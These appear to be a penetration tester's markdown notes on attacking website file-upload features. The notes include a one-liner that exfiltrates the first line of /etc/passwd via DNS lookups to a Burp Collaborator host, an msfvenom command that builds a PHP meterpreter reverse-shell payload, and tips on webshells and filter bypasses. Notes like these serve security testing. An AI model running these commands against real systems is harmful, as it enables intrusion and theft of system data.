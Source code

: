 xml into pdf file
burp collaborator (upload scanner)
dns lookup in collaborator window
host reverse lookup prt of the inscope domain 
used whois to verify

**TIP: sometimes hosting files on the site itself will bypass blacklists.**
**TIP: use unique subdomains and document them so you know who is calling back to your system.**

```
GETID=$(cat /etc/passwd | head -n 1 | base64) && nslookup $GETID.<subdomain>.burpcollaborator.net
```
allowed the use of DNS to exfiltrate the first line of the /etc/passwd file encoded in Base64 

consider using BIND server for the return instead of burp collaborator

https://wiki.debian.org/Bind9

https://linuxtechlab.com/configuring-dns-server-using-bind/

### Setup: 

### Exploit:
**Do not try to replace the existing files during testing unless it is safe to proceed. For instance, replacing configuration files such as “web.config” or “.htaccess” file can lead to a denial of service attack for the whole website.**
1. Find file upload area of a website 
2. create 'malicious' file to upload (based on what can be uploaded, try many file types despite what the upload says it will allow)
3. wait for contact 


### Questions:
1. When it is uploaded does it give us a link or become viewable on the site? if so try a webshell. 
2. What file types are allowed to be uploaded? make sure to test this and verify that it won't accept anything but what it says. 
3. Can I bypass filtering using double extensions? 

### Other file upload payload types??


### Examples:
use msfvenom to build payloads?
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.7 lport=4444 -f raw
```

**Attacks on application platform**
- Upload .jsp file into web tree - jsp code executed as the web user
- Upload .gif file to be resized - image library flaw exploited
- Upload huge files - file space denial of service
- Upload file using malicious path or name - overwrite a critical file
- Upload file containing personal data - other users access it
- Upload file containing “tags” - tags get executed as part of being “included” in a web page
- Upload .rar file to be scanned by antivirus - command executed on a server running the vulnerable antivirus software
